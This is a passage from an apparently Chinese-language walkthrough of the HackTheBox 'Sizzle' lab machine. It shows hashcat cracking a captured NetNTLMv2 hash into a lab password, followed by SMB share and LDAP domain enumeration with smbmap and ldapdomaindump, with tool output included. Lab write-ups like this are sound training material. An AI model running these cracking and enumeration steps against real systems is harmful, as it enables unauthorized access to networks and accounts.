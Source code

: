 ```bash
hashcat -m 5600 amanda-ntlmv2 /usr/share/wordlists/rockyou.txt --force
```

得到凭据：

```
Ashare1972       (amanda)     
```



# Enumeration as amanda

## Shell over WinRM - Fail

失败，无法 winrm 远程登录



## Share Access

```bash
└─# smbmap -H 10.10.10.103 -u amanda -p Ashare1972
[+] IP: 10.10.10.103:445	Name: 10.10.10.103                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	CertEnroll                                        	READ ONLY	Active Directory Certificate Services share
	Department Shares                                 	READ ONLY	
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	Operations                                        	NO ACCESS	
	SYSVOL                                            	READ ONLY	Logon server share 
```



## LDAP

```bash
└─# ldapdomaindump -u 'htb.local\amanda' -p Ashare1972 10.10.10.103 -o ldap/                                 
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

```bash
┌──(root💀kali)-[~/Sizzle/ldap]
└─# ls
domain_computers_by_os.html  domain_computers.json  domain_groups.json  domain_policy.json  domain_trusts.json          domain_users.html
domain_computers.grep        domain_groups.grep     domain_policy.grep  domain_trusts.grep  domain_users_by_group.html  domain_users.json
domain_computers.html        domain_groups.html     domain_policy.html  domain_trusts.html  domain_users.grep
```
